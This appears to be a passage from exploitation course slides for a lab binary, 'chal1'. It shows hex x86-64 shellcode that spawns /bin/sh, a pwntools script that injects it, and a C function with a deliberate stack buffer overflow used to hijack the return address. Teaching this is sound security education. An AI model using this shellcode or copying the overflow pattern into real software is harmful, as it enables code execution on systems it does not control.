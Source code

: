 </div>

---

## Code injection attack - shellcode

Let's assemble the above shellcode and input to the program:

```
$ echo 48b82f62696e2f7368004883ec2831d2488d7c2408488d742410488944240848 \
c74424180000000048897c2410b83b0000000f054883c428c3 | xxd -r -p | ./chal1
$
```

It seems that nothing happens - actually the shell spawns, but input EOF is reached so it doesn't do anything.

What should we do? Let's use pwntools for input/output interaction!


---


## :memo: hands-on (2): shellcode execution (x86-**64**) (`chal1`)

This challenge shares `chal1` binary.
Write a script with `pwntools` to execute shellcode in `chal1` program.

```python
from pwn import *

shellcode = ... # put the shellcode here!
                # hint: bytes.fromhex("....") or b"\x..\x.."

p = process('./chal1')
p.send(shellcode)      # input shellcode to the program
p.interactive()        # drop into interactive shell
```

---

## Code injection attack - combine with stack overflow

If an attacker can **put data into static location** (known address) and **overwrite return address**, then arbitrary code execution is possible, by (1) putting shellcode into the static buffer (2) let return address point to the static buffer

<div class=twocolumn>

```c
char buf1[256];

void f() {
  char buf2[64];

  read(0, buf1, 256); // 1st
  puts(buf1);

  read(0, buf2, 256); // 2nd
  puts(buf2);
}
```
